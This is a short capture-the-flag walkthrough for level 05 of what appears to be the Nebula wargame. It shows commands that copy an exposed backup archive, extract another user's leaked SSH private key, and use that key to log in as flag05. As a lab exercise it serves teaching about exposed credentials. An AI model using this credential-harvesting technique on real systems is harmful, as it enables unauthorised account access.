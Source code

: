 # Level 05

As the site say there is a directory in "/home/flag05" named ".backup", in this
folder there is compressed file, to uncompress it we need to copy it in our
folder where we have the permission to write.

```bash
cp /home/flag05/.backup/backup-19072011.tgz /home/level05/
cd /home/level05
tar xvf backup-19072011.tgz
```

In the archive we find a directory named ".ssh", so now we can try to ssh to
flag05 using as a key the "id_rsa" file.

```bash
ssh -i /home/level05/.ssh/id_rsa flag05@127.0.0.1
```

Now we can run "getflag" as flag05
